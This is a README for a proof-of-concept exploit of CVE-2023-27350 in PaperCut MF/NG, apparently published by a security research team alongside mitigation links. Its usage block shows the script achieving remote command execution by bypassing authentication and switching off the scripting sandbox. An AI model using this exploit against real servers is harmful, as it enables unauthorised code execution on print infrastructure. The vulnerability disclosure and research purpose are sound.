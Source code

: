 # CVE-2023-27350
POC for CVE-2023-27350 affecting PaperCut MF/NG

## Technical Analysis
A technical root cause analysis of the vulnerability, indicators of compromise, and internet exposure can be found on our blog:
https://www.horizon3.ai/papercut-cve-2023-27350-deep-dive-and-indicators-of-compromise

## Summary
This POC uses an authentication bypass vulnerability chained with abuse of builtin scripting functionality to execute code.

## Usage
```plaintext
python3 CVE-2023-27350.py --url 'http://10.0.40.56:9191' --command calc.exe
[*] Papercut instance is vulnerable! Obtained valid JSESSIONID
[*] Updating print-and-device.script.enabled to Y
[*] Updating print.script.sandboxed to N
[*] Prepparing to execute...
[+] Executed successfully!
[*] Updating print-and-device.script.enabled to N
[*] Updating print.script.sandboxed to Y
```

## Mitigations
Update to the latest version or mitigate by following the instructions within the PaperCut Security Advisory
* https://www.papercut.com/kb/Main/PO-1216-and-PO-1219

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.
